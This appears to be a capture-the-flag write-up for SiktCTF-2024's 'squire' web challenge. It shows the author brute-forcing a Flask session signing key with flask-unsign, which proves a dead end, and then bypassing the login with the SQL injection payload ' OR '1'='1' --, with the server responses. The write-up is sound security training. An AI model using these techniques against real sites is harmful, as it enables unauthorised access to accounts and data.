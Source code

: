 <h2>Challenge description:</h2>

```

```

<h2>Solve:</h2>
<details>
    <summary>The dead cookie end</summary>
Looked at alot of different possible exploits. Started off with looking at the webserver "python-werkzeug" which was version 2.0.2 (quite old) and is supposed to only be used in a dev envireoment. Found some exploits related to debug mode and the "/console" path, but that was not enabled.

The app has a form that is posted to "/login". In the response you are redirected to "/" and told to set a cookie.

I started looking at the Set-Cookie response from the webserver since it seemed that there was some logic related to it. ("login failed" appeard when you presented the cookie)

![The Set-Cookie response](image.png)

Turns out Flask has its own session handling system. You can read the session variables by using flask-unsign:
```
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ flask-unsign -d -c eyJfZmxhc2hlcyI6W3siIHQiOlsiZXJyb3IiLCJMb2dpbiBmYWlsZWQhIl19XX0.ZwrjKA.AGDduQlwNvuV6B8RXOKaXFnQKXY
{'_flashes': [('error', 'Login failed!')]}
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ 
```
I stumbled upon [this](https://ldvargas.medium.com/hackpackctf-cookie-forge-3d922862d383) site when googling for more information. In that writeup they brute-force the key used for signing the cookie. After recovering the key they can sign their own, evil, cookie and the server will accept it.

I decided to try bruteforcing myself:
```
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ flask-unsign -u -c eyJfZmxhc2hlcyI6W3siIHQiOlsiZXJyb3IiLCJMb2dpbiBmYWlsZWQhIl19XX0.ZwrjKA.AGDduQlwNvuV6B8RXOKaXFnQKXY
[*] Session decodes to: {'_flashes': [('error', 'Login failed!')]}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----ECR
[+] Found secret key after 21760 attemptsastHlWgH4UWQ
'supersecretkey'
(python) h@flakse:~/git/SiktCTF-2024/Web/squire/python$ 
```

We got the secret!! "supersecretkey" 🥳

Now we just need to figure out what a successful login cookie looks like.

<h3>Or so i thought...</h3>
</details>


Turns out this was a dead end. After many hours i trying random fields in the cookie i started to look elsewhere. By unlocking a hint i knew i needed to look for SQL injections on the site

![SQL injection](image-1.png)'

After som trial and error i noticed that i would get a 500 response code if i had "admin" as username and " ' " as password. Changing out admin for another name did not result in a 500, so i was on to something.

I ended up trying a lot of different SQL Injection examples and eventually found this one:
``` 
username=admin&password=' OR '1'='1' --
```

Suddenly the server responded with the following:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 599
Vary: Cookie
Server: Werkzeug/2.0.2 Python/3.9.19
Date: Sun, 13 Oct 2024 13:08:22 GMT

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Success</title>
    <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@300;400;500;700&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/static/styles.css">
  </head>
  <body>
    <div class="card">
      <h1>Yippie!</h1>
      <p>You have logged in successfully.</p>
      <img src="/static/success.gif" alt="Success GIF">
      <br>
      <a href="/logout">Logout</a>
    </div>
  </body>
</html>
``` 

Loading the refrenced "/static/success.gif" gave me a gif with the flag!

![Flag GIF](success.gif)


<h2>Flag:</h2>

```
SiktCTF{YouDidItMiLord}
```